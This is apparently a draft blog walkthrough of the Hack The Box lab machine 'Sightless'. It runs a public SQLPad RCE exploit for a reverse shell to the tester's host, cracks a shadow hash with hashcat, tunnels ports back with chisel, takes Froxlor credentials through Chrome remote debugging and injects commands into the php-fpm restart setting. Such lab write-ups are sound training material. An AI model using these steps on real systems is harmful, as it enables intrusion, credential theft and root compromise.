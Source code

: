 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-04-03
draft: true
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```

## Reconnaissance #Linux 
- Got three ports open
- ![[Pasted image 20241221001932.png]]
- FTP, SSH, web server
- The page running on `nginx/1.18.0`
## Enumeration
- The web had a Slightless Titled page while scrolling through I found a link button which redirected to `sqlpad.sightless.htb` website.
- I quickly added it hosts and visited it.
- Found  RCE from google in single search : https://github.com/shhrew/CVE-2022-0944.git
## Exploitation
- By executing it got shell
```
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working  directory but there isn't any way to transfer it to our machine cause no versions of python installed
- Then I got to know that this is a docker image that we are in
- ![[Pasted image 20241221022335.png]]
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd`got know that there are two users
- ![[Pasted image 20241221022519.png]]
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it will waste our time.
- ![[Pasted image 20241221022725.png]]
- After finding the module cracked it with my goto tool
```
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then logged in via SSH
- Got user flag
- ![[Pasted image 20241221023004.png]]
## Privilege Escalation
- Done some enumeration but `ss -tunlp` looked sus
- Too many ports don't ya think
- ![[Pasted image 20241221023121.png]]
- So I decided to forward all the weird looking ports to my machine
- On my machine
```
chisel server -p 7001 --reverse
```
- On the target machine
```
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- It seems that port 8080 is running Froxlor, which required credentials to login
- All the remaining ports seems to suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to here chrome://inspect/#devices and added all the ports using configure.
- ![[Pasted image 20241221023839.png]]
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials often
- From the Network tab, got auth request and got the password and username.
- ![[Pasted image 20241221024137.png]]
- Used those creds and got into Froxlor
- While hanging around there discovered a interesting endpoint that could lead to command injection
- ![[Pasted image 20241221024348.png]]
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command filled with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method modified the command to `chmod 777 /home/root.txt`
- ![[Pasted image 20241221024823.png]]
- Got the user flag. Then realized from the start I should've changed permissions for root directory itself
- ![[Pasted image 20241221024851.png]]

